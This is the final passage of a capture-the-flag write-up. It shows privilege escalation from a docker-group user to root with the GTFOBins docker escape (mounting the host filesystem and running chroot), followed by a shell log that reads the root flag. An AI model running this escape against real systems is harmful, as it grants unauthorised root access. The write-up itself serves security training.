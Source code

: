 
# Road to root - Privilege Escalation:

- We are now `deploy` user. This user is running inside a docker instance.
- Let's escape from the docker container.
- `deploy` user is a member of the `docker` group.
- Using [GTFOBins | Docker Escape](https://gtfobins.github.io/gtfobins/docker/)

This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`. Any other Docker Linux image should work, e.g., `debian`.

- Shell:
It can be used to break out from restricted environments by spawning an interactive system shell. The resulting is a root shell.

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# id

uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)

# bash

root@6325e9918c50:/# cd root

root@6325e9918c50:~# ls
root.txt

root@6325e9918c50:~# cat root.txt

```

# Pwned, Thanks For Reading!

